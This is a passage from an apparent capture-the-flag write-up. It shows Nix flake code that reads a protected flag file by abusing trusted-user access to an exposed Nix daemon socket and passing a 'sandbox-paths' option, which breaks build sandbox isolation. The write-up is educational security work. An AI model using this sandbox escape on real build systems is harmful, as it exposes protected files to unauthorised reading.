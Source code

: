 ### Building a Flake Inside a Derivation

With both of these ideas in mind, I started with the first one and built
a small flake:

```nix
{
  inputs = {
    nixpkgs.url = "github:nixos/nixpkgs?ref=6e2f00c83911461438301db0dba5281197fe4b3a"; # nixos-unstable
  };

  outputs = {
    self,
    nixpkgs,
  }: let
    system = "x86_64-linux";
    pkgs = import nixpkgs {
      inherit system;
    };
  in {
    packages.${system}.exploit-inner = pkgs.stdenv.mkDerivation {
      name = "exploit-inner";

      # Just run installPhase and skip everything else
      phases = ["installPhase"];

      installPhase = ''
        mkdir $out
        cat /data/flag
        cp /data/flag $out
      '';
    };
  };
}
```

This flake gets the flag from `/data/flag` and places it in the derivation
output. It also prints it to stdout, which should allow us to get the
flag as well if it works.

As we are now a trusted user, we are able to pass certain options to the daemon,
one of which is `sandbox-paths`, which allows us to specify which paths
will be exposed inside a sandbox.
With this in mind, we simply build this inner flake from inside the other one
we already had by changing the `installPhase`:

```nix
{
  # ...
  packages.${system}.exploit = pkgs.stdenv.mkDerivation {
    # ...
    installPhase = ''
      # Use the exposed socket inside the sandbox
      export NIX_REMOTE=unix:///tmp/daemon
      # Build the flake
      nix --extra-experimental-features "nix-command flakes" \
        build \
        $src#exploit-inner \
        --option sandbox-paths /data

      # Copy flag to output
      mkdir $out
      cp result/flag $out
    '';
  };
```